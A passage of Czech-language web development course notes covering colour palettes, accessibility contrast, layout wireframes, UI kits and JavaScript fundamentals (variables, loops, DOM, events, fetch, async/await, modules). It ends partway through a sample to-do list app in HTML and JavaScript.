	* **Barevná paleta:** Profesionální weby nepoužívají 20 různých barev. Drží se omezené palety. Běžné pravidlo je **60-30-10**:
	    * **60 %** Primární barva (např. pozadí, hlavní plochy).
	    * **30 %** Sekundární barva (např. hlavička, patička, karty).
	    * **10 %** Akcentní barva (např. tlačítka, odkazy, důležité prvky).
---
##### 4.3.2.1 Kontrast a Přístupnost (Accessibility)
- Nejdůležitější pravidlo při práci s barvami. **Kontrast** je rozdíl v jasu mezi textem a jeho pozadím.
	* **Špatný kontrast** (např. světle šedé písmo na bílém pozadí) je nečitelný pro lidi se slabším zrakem a nepříjemný pro všechny ostatní.
	* **Dobrý kontrast** (např. tmavě šedé písmo na bílém pozadí) je snadno čitelný.
- Profesionální standardy (**WCAG** - Web Content Accessibility Guidelines) definují přesné poměry kontrastu, které musíme splnit. Vždy si své barevné kombinace kontrolujme v online nástrojích (hledejte "Contrast Checker"). Tím zajistíme, že váš web je **přístupný** pro co nejvíce lidí.
---
#### 4.3.3 Tvorba layoutu
- Než začneme psát kód, musíme vědět, *kam* prvky umístit.
	1.  **Drátové modely (Wireframes):**
		- Jsou to nízkoúrovňové (low-fidelity) náčrty – v podstatě "architektonický plán" webu. Soustředí se pouze na rozložení a strukturu, zcela ignorují barvy a písmo. Často se kreslí jen tužkou na papír nebo v jednoduchých online nástrojích.
	2.  **Mockupy (Vizuální návrhy):**
		- Jsou to vysoce věrné (high-fidelity) návrhy, které vypadají přesně tak, jak má finální produkt vypadat. Zahrnují reálné barvy, písma a obrázky. Vytvářejí se v nástrojích jako **Figma**, Sketch nebo Adobe XD. Náš `style.css` byl v podstatě kódováním takového (myšleného) mockupu.
	3.  **Běžné skenovací vzory (Scanning Patterns):**
		- Uživatelé na webu nečtou – skenují. V západním světě sledují jejich oči nejčastěji dva vzory:
		    * **F-Pattern:** Uživatel skenuje horní část stránky (horní lišta "F"), pak sjede pohledem níže a skenuje další horizontální řádek (kratší lišta "F"). Typické pro blogy a zpravodajství.
		    * **Z-Pattern:** Oko přejede zleva doprava nahoře, pak diagonálně dolů doleva a opět zleva doprava dole. Typické pro jednodušší stránky a "landing pages".
- Znalost těchto vzorů vám pomůže umístit nejdůležitější prvky (jako tlačítko "Registrovat") tam, kam se uživatel přirozeně podívá.
---
#### 4.3.4 Praktický UI kit
- Ať už pracujeme sami nebo v týmu, klíčem k udržitelnosti a konzistenci je **UI Kit** (nebo "Design System"). Je to sbírka všech znovupoužitelných komponent a definovaných pravidel pro váš projekt.
- Představme si ho jako vaši osobní "knihovnu" designových prvků.
---
##### 4.3.4.1 Co typický UI Kit obsahuje:
* **1. Základy (Foundations):**
    * **Barevná paleta:** (Přesné HEX kódy pro vaši primární, sekundární a akcentní barvu).
    * **Typografie:** (Jak vypadá `<h1>`, `<h2>`, `<p>`, `<a>`).
    * **Mezery (Spacing):** (Jaké jsou vaše standardní hodnoty `margin` a `padding`, např. 8px, 16px, 24px).
* **2. Komponenty (Components):**
    * **Tlačítka (Buttons):** Jak vypadá primární tlačítko? Sekundární? Jak vypadají ve stavu `:hover` nebo `:disabled`?
    * **Karty (Cards):** Jak vypadá `article` v našem projektu? Má mít stín? Zaoblené rohy?
    * **Formulářové prvky:** Jak vypadá `input`, `label`, `checkbox`?
- V našem mini-projektu by UI Kit znamenal, že bychom si definovali: 
	- "Všechna `<h2>` budou mít velikost `1.8rem` a spodní linku `2px solid #ddd`." 
	- Když pak přidáme novou sekci, jen použijeme `<h2>` a máme zaručenou konzistenci.
---
### 4.4 JavaScript – základy logiky webu
- Doposud jsme vytvořili kostru (HTML) a dali jí vzhled (CSS). Náš web je ale stále statický – je to jen hezký dokument. Nyní přidáme **"mozek"** a **"svaly"** pomocí **JavaScriptu (JS)**.
- JavaScript je **programovací jazyk**, který běží přímo v prohlížeči uživatele. 
  Umožňuje nám:
	* **Reagovat na akce uživatele** (kliknutí, vyplnění formuláře, scrollování).
	* **Dynamicky měnit obsah** stránky bez nutnosti jejího znovunačtení.
	* **Komunikovat se serverem** na pozadí (načítat nová data, odesílat formuláře).
	* Provádět výpočty, animovat prvky a mnoho dalšího.
---
#### 4.4.1 Proměnné, funkce, cykly
- Toto jsou základní stavební bloky jakéhokoliv programovacího jazyka.
---
##### 4.4.1.1 Proměnné (Variables)
- Proměnné jsou "kontejnery" pro ukládání dat (čísla, text, objekty). V moderním JS používáme dvě klíčová slova:
- **`let`**: Pro proměnné, jejichž hodnota se **může změnit**.
```javascript
    let vek = 30;
    vek = 31; // OK
```
-  **`const`**: Pro konstanty, jejichž hodnota se **měnit nesmí**. Je to preferovaný způsob, pokud víme, že hodnotu měnit nebudeme (zvyšuje bezpečnost a čitelnost kódu).
```javascript
    const jmeno = "Martin";
    // jmeno = "Petr"; // Vyhodí chybu! (snažíme se měnit konstantu)
```

>[!Note] **Poznámka:** 
>- Dříve se používalo klíčové slovo `var`. Dnes se jeho používání nedoporučuje kvůli jeho matoucímu chování (tzv. hoisting a funkční scope). Vždy preferujte `let` a `const`.
>	- **Hoisting**: je chování, při kterém se deklarace (nikoli inicializace) proměnných, funkcí a tříd přesunou na začátek jejich rozsahu (scope) během kompilace.
>	- **Funkční scope**: Je oblast, kde jsou proměnné a funkce vytvořené uvnitř funkce dostupné pouze uvnitř této funkce.

---
##### 4.4.1.2  Datové typy
- Základní typy dat, se kterými pracujeme:
    - **`string`**: Text (`"Ahoj světe"`)
    - **`number`**: Číslo (`10`, `3.14`)
    - **`boolean`**: Pravda / Nepravda (`true`, `false`)
    - **`array`**: Seznam hodnot (`[1, "text", true]`)
    - **`object`**: Kolekce dat ve formátu „klíč: hodnota” (`{ jmeno: "Martin", vek: 20 }`)
    - **`null`**: Záměrně prázdná hodnota – říká: „tady nic není“ (`null`)
    - **`undefined`**: Hodnota, která ještě nebyla nastavena (`let x; // undefined`)
    - **`bigint`**: Velká čísla mimo rozsah typu `number` (`12345678901234567890n`)
    - **`symbol`**: Unikátní identifikátor – používá se pro speciální případy (`Symbol("id")`)
    - **`function`**: V JS funkce fungují také jako datový typ (`function pozdrav() {}`)
>[!Note] `null` vs `undefined`
> `undefined`
> 	- Hodnota, která _vznikla sama_, protože ji JavaScript ještě nedostal.
> 	- Nastává například když:
> 		- deklaruješ proměnnou, ale nic do ní nedáš
> ```javascript
> let x; console.log(x); // undefined
> ```
> - funkce nic nevrátí
> - objekt nemá danou vlastnost
> - **`undefined` = „Nevím, co tady má být.“**
> ---
> `null`
> - Hodnota, kterou _dáš záměrně_, aby řekla: „Tady nic není.“
> - Například:
> ```javascript
> let uzivatel = null; // aktuálně žádný přihlášený uživatel
> ```
>- Používá se tehdy, když **chceš říct, že hodnota existuje, ale je prázdná**.
>- **`null` = „Vím, že to tu má být, ale nemá to žádnou hodnotu.“**

---
##### 4.4.1.3 Funkce (Functions)
- Funkce jsou znovupoužitelné bloky kódu, které provádějí specifický úkol.
```javascript
// Tradiční deklarace funkce
// Funkci můžeš volat kdykoliv poté i předtím (hoisting ji zvedne nahoru).
function pozdrav(jmeno) {
    // Funkce může přijímat parametry (zde: "jmeno")
    // "return" vrátí hodnotu volajícímu kódu
    return "Ahoj, " + jmeno + "!";
    // Po returnu se funkce ukončí
}

// Moderní šipková funkce (Arrow Function)
// Arrow funkce se ukládají do proměnné.
// Narozdíl od tradiční funkce NEJSOU "hoistované" — musí být definované před použitím.
const pozdravArrow = (jmeno) => {
    // Šipkový zápis je kratší a čitelnější, používá se velmi často.
    // Pomocí Template Literals (`...`) lze vkládat proměnné přímo do textu.
    return `Ahoj, ${jmeno}!`;
};

// Volání funkcí
// Funkci zavoláš tak, že za její název napíšete závorky a parametry.
// Výsledek uložení do proměnné:
let zprava = pozdrav("Martine"); 
// zprava teď obsahuje: "Ahoj, Martine!"

let zprava2 = pozdravArrow("Martine");
// zprava2 obsahuje: "Ahoj, Martine!"
```
---
###### Funkce jako datový typ
- V JavaScriptu je funkce považovaná za **value** (hodnotu), úplně stejně jako string, číslo nebo objekt.
- To znamená, že s funkcemi můžeš:
	- předávat je do jiné funkce,
	- ukládat je do proměnných,
	- vracet je z funkcí,
	- ukládat je do polí nebo objektů.
- Tohle je něco, co v mnoha jiných jazycích nejde — JavaScript je v tomhle flexibilní.
- Díky tomu fungují:
	- event listenery,
	- callbacky,
	- promise `.then()`,
	- React komponenty,
	- middleware,
	- Express routy,
	- atd.
-  Funkce jako hodnota:
```javascript
let pozdrav = function() {
    console.log("Ahoj!");
};

pozdrav(); // funguje normálně
```
- Funkce v poli:
```javascript
let akce = [
    () => console.log("První"),
    () => console.log("Druhá")
];

akce[1](); // Druhá
```
-  Funkce vracející funkci:
```javascript
function vytvorPozdrav(jmeno) {
    return () => console.log("Ahoj " + jmeno);
}

let pozdrav = vytvorPozdrav("Petr");
pozdrav(); // Ahoj Petr
```
---
##### 4.4.1.4 Cykly a Podmínky
###### Operátory pro podmínky
- **Porovnávací operátory**
	- Používají se pro porovnávání dvou hodnot — výsledek je vždy `true` nebo `false`.

| Operátor | Význam                                | Příklad     | Výsledek |
| -------- | ------------------------------------- | ----------- | -------- |
| `==`     | Porovnává hodnotu (bez ohledu na typ) | `5 == "5"`  | `true`   |
| `===`    | Porovnává hodnotu i typ               | `5 === "5"` | `false`  |
| `!=`     | Nerovnost hodnot                      | `3 != 5`    | `true`   |
| `!==`    | Nerovnost hodnoty nebo typu           | `3 !== "3"` | `true`   |
| `>`      | Větší než                             | `7 > 3`     | `true`   |
| `<`      | Menší než                             | `3 < 5`     | `true`   |
| `>=`     | Větší nebo rovno                      | `6 >= 6`    | `true`   |
| `<=`     | Menší nebo rovno                      | `2 <= 5`    | `true`   |
- **Logické operátory**
	- Používají se v podmínkách pro kombinování více logických výrazů.

| Operátor | Význam                                          | Příklad             | Výsledek |
| -------- | ----------------------------------------------- | ------------------- | -------- |
| `&&`     | Logické **A** — obě podmínky musí být pravda    | `true && false`     | `false`  |
| \| \|    | Logické **NEBO** — stačí, aby jedna byla pravda | `true` \|\| `false` | `true`   |
| `!`      | Logické **NOT** — obrací hodnotu                | `!true`             | `false`  |

---
###### Podmínky (`if`, `else`, `else if`, `switch`)
- Podmínky umožňují řídit tok programu. Kód se spustí pouze tehdy, pokud je splněna definovaná podmínka.  
- Program tak může reagovat na různé situace — například na hodnotu proměnné, vstup uživatele nebo výsledek výpočtu.
-  `if` – základní konstrukce
	- Když je podmínka splněna, provede se blok kódu:
```javascript
let teplota = 35;

if (teplota > 30) { // Pokud je teplota větší jak 30 (35>30 -> true)
    console.log("Je horko."); // Vypiš je horko
}
```
---
- `if / else`
	- Použije se, pokud chceme alternativu, když se podmínka nesplní:
```javascript
let skore = 85;

if (skore > 90) { // Podmínka není splněna (85 > 90 → false)
    console.log("Výborně!");
} else { // Provádí se tedy tato větev
    console.log("Je třeba se víc snažit.");
}
```
- Podmínka splní pouze jednu větev!
---
- `else if`
	- Slouží pro více možností:
```javascript
let skore = 75;

if (skore >= 90) { // false
    console.log("Výborně.");
} else if (skore >= 70) { // true -> provede se tato větev
    console.log("Chvalitebné.");
} else if (skore >= 50) { // true -> už se neprovede, jelikož se už jenda true podmínka našla před touto 
	console.log("Dobré.");
} else {
    console.log("Nedostatečné."); // také se neprovádí
}
```
- Můžeme si povšimnout, že výše jsou splněné 2 podmínky, avšak pouze jedna se vykoná.
- To se děje kvůli tomu, že podmínky se procházejí postupně od zhora dolů, a provede se pouze první, která se najde jako `true`, popřípadě podmínka `else` pokud se `true` nenajde.
---
-  `switch`
	- Používá se, když porovnáváš **jednu hodnotu** vůči **více možnostem**.  
	- Je přehlednější než několik `else if` za sebou:
```javascript
	let den = 2;

switch (den) { // Porovnává se den === case
    case 1:
        console.log("Pondělí");
        break; // Zabrání pokračování do další větve
    case 2: // den === 2 -> true
        console.log("Úterý"); // tato větev se provede
        break;// Zabrání pokračování do další větve
    case 3:
        console.log("Středa");
        break;
    default: // Defaultní větev, pokud se den neshoduje s žádnou case
        console.log("Neplatný den");
}
```
- `switch` na rozdíl od  `if` nekontroluje jednotlivé větve. `switch` totiž zjistí hodnotu zadaného parametru a okamžitě ví jakou větev má spustit. Toto je výhodné pro to když máme několik možností, jelikož `switch` nám rovnou najde větev, ale `if` musí ověřit každou podmínku dokud nenajde správnou větev. (při nejhorším případě `if` zkontroluje všechny podmínky což je neefektivní) 
- `switch` porovnává pouze pomocí `===`, ničím jiným neporovnává. Také porovnává pouze hodnoty nikoliv podmínky. 
- To že porovnává pomocí `===` může vést k občasnému zmatku v debugování, pokud si toto nezapamatujeme.
```javascript
let x = 5;

switch (x) {
    case "5":   // string ≠ number → neprojde
        console.log("Tohle se nevypíše");
        break;
    case 5:     // number === number → OK
        console.log("Správně!");
        break;
}
```
- Povolené hodnoty k porovnání
```javascript
switch (x) {
    case 1:
    case "text":
    case true:
    case null:
}
```
- Nepovolené hodnoty k porovnání
```javascript
switch (x) {
    case x > 10: // ❌ NESPRÁVNĚ – není to hodnota
    case (a + b): // ❌ výraz, ne hodnota
    case (funkce()): // ❌ výsledek funkce – není statická hodnota
}
```
- Můžeme se ale setkat s tím, že se v case objeví porovnání. Koukněme na příklad níže.
```javascript
switch (true) {
    case x > 10:
        console.log("větší než 10");
        break;

    case x > 5:
        console.log("větší než 5");
        break;
}
```
- To FUNGUJE, ale jen kvůli tomu:
	- `switch` porovnává hodnotu `true`
	- s výsledkem výrazu `x > 10` (což je také `true` / `false`)
>[!Warning] Není to oficiální účel, je to hack.
> - `switch` je určen pro porovnávání **jedné hodnoty vůči konkrétním hodnotám** (`===`).
> - Použití výrazu je jen trik. -> může vést k neočekávanému chování
> - Pro porovnávání by se měl použít `if`.

---
-  Rozdíl mezi `if` a `switch`

| `if`                                        | `switch`                                                                                         |
| ------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| Porovnává komplexní výrazy (např. >, <, &&, | Porovnává pouze určité hodnoty pomocí `===`                                                      |
| Univerzální a flexibilní.                   | Čitelnější při mnoha možnostech.                                                                 |
| Vhodné pro logiku obsahující více podmínek. | Vhodné pro jednoduché porovnání jedné hodnoty. Mnohem rychlejší pro mnoho jednoduchých podmínek. |

---
###### Cykly (`for`, `while`, `do...while`, `forEach`…)
- Cykly opakují kód, dokud je splněna podmínka, nebo dokud neprojdou všechny položky v poli.  
- Nejčastěji se používají při práci s daty — seznamy produktů, výsledky API, řádky tabulky…
---
-  `for` — klasický cyklus
	- Hodí se, když potřebujeme kontrolovat index a mít plnou kontrolu nad průběhem:
```javascript
for (let i = 0; i < 5; i++) {  // i začíná na 0, běží dokud i < 5, po každém kole se zvětší o 1
    console.log("Číslo:", i); // Vypíše 0,1,2,3,4
}
```
- Parametry `for` cyklu
	1. parametr nám definuje proměnnou, kterou použijeme jako index
	2. parametr nám udá podmínku, do kdy se má cyklus provádět. Porovnává se index s tím co zrovna potřebujeme
	3. parametr nám určuje, co se s indexem po skončení cyklu stane. Nejčastěji se dává zvětšení o 1 nahoru, ovšem můžeme si to určit, jak se nám to zrovna hodí.
---
- `while` — opakuje se, dokud je podmínka pravda
	- Funguje jako „opakuj, dokud platí…“:
```javascript
let x = 0; // definování hodnoty pro cyklus

while (x < 3) {      // Běží, dokud je podmínka true
    console.log(x);  // Vypíše 0,1,2
    x++;             // Bez zvýšení by vznikl nekonečný cyklus
}
```
---
-  `do...while` — provede se **minimálně jednou**
	- Rozdíl oproti `while` -> nejdřív se provede kód, teprve potom se kontroluje podmínka.
```javascript
let y = 0; // definování hodnoty pro cyklus

do {
    console.log(y); // Tento kód se provede vždy alespoň jednou
    y++; // Zvýšení indexu o 1
} while (y < 3);     // Po provedení znovu kontroluje podmínku
```
---
- `for...of` — moderní iterace přes pole
	- Ideální na čitelné procházení seznamů:
```javascript
const ovoce = ["Jablko", "Banán", "Pomeranč"];

for (const item of ovoce) { // item = každá položka pole
    console.log(item);
}
```
---
- `forEach` — metoda pole
	- Velmi oblíbený způsob v moderním JavaScriptu.
```javascript
const ovoce = ["Jablko", "Banán", "Pomeranč"];

ovoce.forEach((item) => {  // Pro každou položku zavolá funkci
    console.log(item);
});
```
---
- `for...in` — iterace přes klíče objektu
	- Nehodí se na pole, používá se pro objekty:
```javascript
const osoba = { jmeno: "Jan", vek: 25 };

for (const klic in osoba) {            // klic = název vlastnosti objektu
    console.log(klic, osoba[klic]);    // vypíše: jmeno Jan / vek 25
}
```
---
###### Zacyklení (infinite loop)
- Cyklus se může nikdy nezastavit, pokud je podmínka **stále pravdivá**:
```javascript
while (true) { // Opakuje se do nekonečna, jelikož podmínka je pořád true
	console.log("Tohle nikdy neskončí!"); 
}
```
- To může vést k:
	- zamrznutí skriptu,
	- vytížení CPU,
	- spadnutí aplikace.
- Proto je důležité vždy aktualizovat proměnné, které podmínku ovlivňují.
>[!Note] 
> - Například ale v Arduinu, či jiných mikrokontrolérech, můžeme zacyklení využít k našemu prospěchu. Například pokud potřebujeme něco monitorovat a následně to zapsat do logů, můžeme k tomu využít nekonečný cyklus.  
> - Jak to bude probíhat:
> 	- Zapneme arduino -> začne s monitoringem
> 	- Zapnuté arduino -> neustále monituruje a loguje
> 	- Vypneme arduino -> zastavíme monitoring
- Toto ale ovšem neplatí pro webové stránky, v javascriptu, v prohlížeči nekonečný cyklus `while(true)` zamrzne stránku. 
---
###### Kdy použít který cyklus?

| Typ cyklu    | Kdy ho použít                                                       |
| ------------ | ------------------------------------------------------------------- |
| `for`        | Když potřebuješ index nebo chceš počítat krok.                      |
| `while`      | Když nevíme, kolikrát se cyklus provede (např. čekání na podmínku). |
| `do...while` | Když se kód má provést aspoň jednou.                                |
| `for...of`   | Nejčtenější varianta pro pole a iterovatelné objekty.               |
| `forEach`    | Moderní práce s poli, hlavně v JS aplikacích.                       |
| `for...in`   | Pro procházení klíčů objektů.                                       |

---
#### 4.4.2 DOM – manipulace s prvky
- **DOM (Document Object Model)** je klíčový koncept. Když prohlížeč načte vaše HTML, převede ho na stromovou strukturu objektů – DOM. JavaScript pak může tento strom **číst a upravovat**.
---
##### 4.4.2.1 Výběr prvků
- Než můžeme něco změnit, musíme to vybrat. Používáme metody objektu `document`:
	- `document.getElementById('nejake-id')`: Vybere prvek podle jeho `id`. (Nejrychlejší)
	- `document.querySelector('.nejaka-trida')`: Vybere **první** prvek, který odpovídá CSS selektoru. (Nejuniverzálnější)
	- `document.querySelectorAll('.nejaka-trida')`: Vybere **všechny** prvky, které odpovídají selektoru (vrátí seznam).
---
##### 4.4.2.2 Úprava prvků
- Jakmile máme prvek vybraný (uložený v proměnné), můžeme ho měnit:
	- `.textContent`: Mění **pouze text** uvnitř prvku (bezpečné).
	- `.innerHTML`: Mění **celé HTML** uvnitř prvku (může být nebezpečné kvůli XSS útokům, pokud vkládáme data od uživatele – k tomu se dostaneme v kapitole o bezpečnosti).
	- `.style`: Umožňuje měnit CSS vlastnosti (`element.style.color = "red";`).
	- `.classList`: Umožňuje přidávat nebo odebírat CSS třídy (`element.classList.add('aktivni');`).
---
##### 4.4.2.3 Tvorba a mazání prvků
- Můžeme také vytvářet úplně nové prvky:
```javascript
// 1. Výběr rodiče
const seznam = document.querySelector('#mujoblibeny-seznam');

// 2. Vytvoření nového prvku
const novaPolozka = document.createElement('li');

// 3. Nastavení jeho obsahu
novaPolozka.textContent = "Nová položka";

// 4. Přidání prvku do DOMu (na konec seznamu)
seznam.appendChild(novaPolozka);

// Mazání prvku
// novaPolozka.remove(); 
```
---
#### 4.4.3 Události (click, input…)
- JavaScript je **řízený událostmi (event-driven)**. Čeká, až uživatel něco udělá (událost), a pak spustí kód, který je na tuto událost navázán.
- Moderní způsob "poslouchání" událostí je metoda `.addEventListener()`:
```javascript
// 1. Vybereme tlačítko
const tlacitko = document.querySelector('#moje-tlacitko');

// 2. Definujeme funkci, která se má spustit
const priKliknuti = () => {
    alert("Bylo na mě kliknuto!");
};

// 3. Přidáme "posluchače", který spojí událost 'click' s naší funkcí
tlacitko.addEventListener('click', priKliknuti);
```
- **Běžné typy událostí:**
	- `click`: Kliknutí myší.
	- `input`: Změna hodnoty ve formulářovém poli (`<input>`).
	- `submit`: Odeslání formuláře (`<form>`).
	- `mouseover`: Najetí myší na prvek.
- U formulářů je časté zabránit jejich výchozímu chování (které by znovu načetlo stránku) pomocí `event.preventDefault()`:
```javascript
const formular = document.querySelector('#muj-formular');
formular.addEventListener('submit', (event) => {
    event.preventDefault(); // Zabráníme odeslání a znovunačtení
    console.log("Formulář odeslán pomocí JS!");
});
```
---
#### 4.4.4 Fetch API – volání serveru
- Weby jsou zřídka statické. Často potřebujeme načíst data ze serveru (např. seznam produktů, počasí). K tomu slouží **Fetch API**.
- `fetch()` je **asynchronní** funkce. To znamená, že její spuštění **neblokuje** zbytek kódu. JS na ni nečeká, ale pokračuje dál. Výsledek nám "slíbí" do budoucna. Tomuto slibu se říká **Promise**.
- S "Promises" pracujeme pomocí metody `.then()` (co dělat, až se slib splní) a `.catch()` (co dělat, když nastane chyba).
```javascript
// Adresa API (v tomto případě veřejné API pro testování)
const url = '[https://jsonplaceholder.typicode.com/posts/1](https://jsonplaceholder.typicode.com/posts/1)';

console.log("Začátek volání...");

fetch(url)
    .then(response => {
        // První .then() zpracuje odpověď serveru (HTTP status atd.)
        // Převedeme data z formátu JSON na JS objekt
        return response.json(); 
    })
    .then(data => {
        // Druhý .then() má k dispozici reálná data
        console.log("Data dorazila:", data.title);
    })
    .catch(error => {
        // .catch() zachytí jakoukoliv chybu během volání
        console.error("Chyba při načítání:", error);
    });

console.log("... kód pokračuje, nečeká na data.");
```
---
#### 4.4.5 Asynchronní JS (async/await)
- Řetězení `.then()` může být nepřehledné. Moderní JS nabízí elegantnější syntaxi pro práci s "Promises": `async/await`.
- Je to tzv. "syntaktický cukr" – kód dělá na pozadí to samé co `.then()`, ale nám umožňuje psát asynchronní kód, jako by byl synchronní (lineární).
- Pravidla:
	1. Funkce, která používá `await`, musí být označena jako `async`.
	2. `await` "pozastaví" provádění _pouze dané funkce_, dokud `Promise` není splněn.
	3. Asynchronní kód bychom měli vždy obalit do bloku `try...catch` pro odchycení chyb.
```javascript
const nactiData = async () => {
    const url = '[https://jsonplaceholder.typicode.com/posts/1](https://jsonplaceholder.typicode.com/posts/1)';
    console.log("Začínám načítat...");
    
    try {
        // await "počká", až fetch skončí
        const response = await fetch(url); 
        
        // await "počká", až se data převedou z JSONu
        const data = await response.json(); 
        
        console.log("Data načtena:", data.title);
    } catch (error) {
        console.error("Chyba při načítání:", error);
    }
    
    console.log("... funkce skončila.");
};

nactiData();
```
- Tento zápis je dnes profesionálním standardem.
---
#### 4.4.6 Moduly
- Když se aplikace rozroste, nechceme mít veškerý kód v jednom obřím souboru. **ESM (ES Moduly)** je moderní standard JavaScriptu, jak rozdělit kód do více souborů.
- **Princip:**
	1. **Export:** Z jednoho souboru "zpřístupníme" funkce nebo proměnné pomocí klíčového slova `export`.
	2. **Import:** V jiném souboru je "načteme" pomocí klíčového slova `import`.
- **Příklad:**
**`soubor: utils.js`**
```javascript
// Exportujeme pojmenovanou konstantu
export const PI = 3.14159;

// Exportujeme pojmenovanou funkci
export const secti = (a, b) => {
    return a + b;
};
```
**`soubor: main.js`**
```javascript
// Importujeme specifické části z našeho modulu
import { PI, secti } from './utils.js';

console.log("Hodnota PI je:", PI);
console.log("Součet 2+3 je:", secti(2, 3));
```
- Aby to celé fungovalo v prohlížeči, musíme hlavní skript v HTML označit jako modul:
```html
<script type="module" src="main.js"></script>
```
- Moduly nám umožňují psát čistý, organizovaný a znovupoužitelný kód, což je základem pro frameworky jako React.
---

#### 4.4.7 Mini-projekt: Osobní web s interaktivní To-Do app
- Nyní zkombinujeme vše, co jsme se naučili. Přidáme na váš existující osobní web (`o-mne.html`) novou sekci `<section>`, která bude obsahovat plně funkční "To-Do List" (seznam úkolů).
- **Požadavky:**
	1. **HTML:** Přidejte do `index.html` novou sekci s `<input type="text">` pro nový úkol, `<button>` pro přidání a prázdný seznam `<ul>` pro zobrazení úkolů.
	2. **JS (DOM + Události):** Vytvořte nový soubor `app.js` a připojte ho k HTML (pomocí `<script type="module">`).
	3. **Přidání úkolu:** Napište funkci, která po kliknutí na tlačítko:
	    - Přečte text z `<input>`.
	    - Vytvoří nový prvek `<li>`.
	    - Nastaví `<li>.textContent` na text z inputu.
	    - Přidá `<li>` do `<ul>`.
	    - (Bonus) Vyčistí `<input>`.
	4. **Mazání úkolu (Bonus):** Přidejte na každý nový `<li>` `addEventListener('click')`. Po kliknutí na `<li>` se tento prvek smaže (`element.remove()`).
	5. **Perzistence (Bonus 2):** Pomocí `localStorage.setItem()` a `localStorage.getItem()` zkuste zařídit, aby se úkoly uložily v prohlížeči a nezmizely po znovunačtení stránky.
- příklad:
`soubor: index.html`
```html
<!DOCTYPE html>
<html lang="cs">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>Martin Novan - Profil webového vývojáře a tvůrce</title>
	<link rel="stylesheet" href="style.css">
</head>
<body>
	<header class="container">
		<h1>Martin Novan</h1>
		<p>Ahoj! Vítejte na mém webovém profilu.</p>
	</header>
	<main class="container">
		<section>
			<h2>O mně a mých zájmech</h2>
			
			<p>Jsem vývojář, který se zaměřuje na robustní a čistá softwarová řešení. Neustále rozšiřuji své dovednosti v oblasti moderních frameworků a operačních systémů.</p>
			<p>Aktuálně se v rámci osobních projektů intenzivně věnuji technologiím jako je **.NET MAUI**, **Avalonia UI** a skriptování pro **3D tiskárny (Klipper)**.</p>
		</section>
		<section>
			<h2>Technický Stack a Dovednosti</h2>
			<ul>
				<li><strong>Jazyky:</strong> C#, Python, SQL, HTML, CSS, JavaScript.</li>
				<li><strong>Frameworky / UI:</strong> .NET, WPF, AvaloniaUI, MAUI.</li>
				<li><strong>Databáze:</strong> MySQL, SQL, Microsoft SQL.</li>
				<li><strong>OS/Nástroje:</strong> Arch Linux, Klipper (Firmware).</li>
			</ul>
		</section>
		<section>
			<h2>Vybrané projekty</h2>
			<div id="projekty-kontejner">
				<article>
					<h3>Simple Virtual PC Management (SVPM)</h3>
					<p>Nástroj pro správu virtuálních PC, zákazníků a jejich vztahů. Systém zahrnuje komplexní <strong>Customer Management</strong>, správu konfigurací, auditování změn a zabezpečení integrity dat pomocí **Hash Verification**.</p>
				</article>
				<article>
					<h3>Endeaxim-3 (Hardware Upgrade Kit)</h3>
					<p>Komplexní upgrade kit pro 3D tiskárnu Creality Ender 3. Projekt zahrnuje **Hardware Upgrades** (Dual Z-axis, Linear Rail), implementaci **Klipper Firmware** na Raspberry Pi a optimalizaci pro vysoké rychlosti. K dispozici jsou také **STEP soubory** pro precizní modely.</p>
				</article>
			</div>
		</section>
		<section id="todo-app">
			<h2>Mini Aplikace: To-Do List</h2>
			<p>Přidejte úkoly, které chcete splnit. Kliknutím na úkol ho označíte jako splněný (a smažete).</p>
			<form id="todo-form">
				<input type="text" id="todo-input" placeholder="Napište nový úkol..." aria-label="Nový úkol">
				<button type="submit" id="todo-add-btn">Přidat</button>
			</form>
			<ul id="todo-list">
			</ul>
		</section>
	</main>
	<footer>
	<nav>
		<p>Najdete mě zde:</p>
		<ul>
			<li><a href="https://github.com/MartinNovan" target="_blank">GitHub Profil (My Repositories)</a></li>
		</ul>
	</nav>
	<p>© 2025 Martin Novan. Všechna práva vyhrazena.</p>
	</footer>
	<script src="app.js" type="module"></script>
</body>
</html>
```
`soubor: app.js`
```javascript
/*
 * Mini-projekt: Interaktivní To-Do List
 * Tento soubor je načten jako modul (type="module"),
 * takže se spustí až po načtení HTML (má vlastnost 'defer').
 */

// 1. Výběr elementu z index.html
// Potřebujeme formulář, pole pro zadávání a seznam (ul)
const todoForm = document.querySelector('#todo-form');
const todoInput = document.querySelector('#todo-input');
const todoList = document.querySelector('#todo-list');

// Klíč pro ukládání dat do localStorage
const STORAGE_KEY = 'moje-ukoly';

// 2. Funkce
/**
 * Načte úkoly z localStorage při startu aplikace.
 * Splňuje Bonus 2 (Perzistence).
 */
function nactiUkoly() {
    // Získáme data z localStorage, nebo použijeme prázdné pole, pokud nic nenajdeme
    const ukoly = JSON.parse(localStorage.getItem(STORAGE_KEY)) || [];
    
    // Pro každý uložený textový úkol vytvoříme HTML element
    ukoly.forEach(textUkolu => {
        vytvorElementUkolu(textUkolu);
    });
}

/**
 * Hlavní funkce pro přidání nového úkolu (z formuláře).
 * @param {Event} event - Událost odeslání formuláře
 */
function pridejUkol(event) {
    event.preventDefault(); // Zabráníme výchozímu chování formuláře (znovunačtení stránky)
    // Získáme text z inputu a ořízneme bílé znaky (mezery)
    const textUkolu = todoInput.value.trim();
    // Pokud je input prázdný, nic neděláme
    if (textUkolu === '') {
        alert("Musíte napsat nějaký úkol.");
        return;
    }
    // 1. Vytvoříme HTML element
    vytvorElementUkolu(textUkolu);
    // 2. Vyčistíme input
    todoInput.value = '';
    // 3. Uložíme nový stav do localStorage (Bonus 2)
    ulozUkoly();
}

/**
 * Vytvoří a připojí <li> element do seznamu <ul>.
 * @param {string} text - Text nového úkolu
 */
function vytvorElementUkolu(text) {
    // Vytvoříme nový prázdný <li>
    const li = document.createElement('li');
    
    // Nastavíme mu textový obsah
    li.textContent = text;
    // Splnění Bonusu 1 (Mazání úkolu)
    // Přidáme posluchač události 'click' přímo na tento nový <li>
    li.addEventListener('click', () => {
        // Po kliknutí se prvek sám smaže z DOMu
        li.remove();
        // A aktualizujeme localStorage (Bonus 2)
        ulozUkoly();
    });
    // Přidáme hotový <li> na konec seznamu <ul>
    todoList.appendChild(li);
}

/**
 * Uloží aktuální stav všech úkolů (textový obsah) do localStorage.
 * Splňuje Bonus 2 (Perzistence).
 */
function ulozUkoly() {
    const ukoly = [];
    // Vybereme všechny <li> prvky v seznamu
    const polozkySeznamu = document.querySelectorAll('#todo-list li');
    
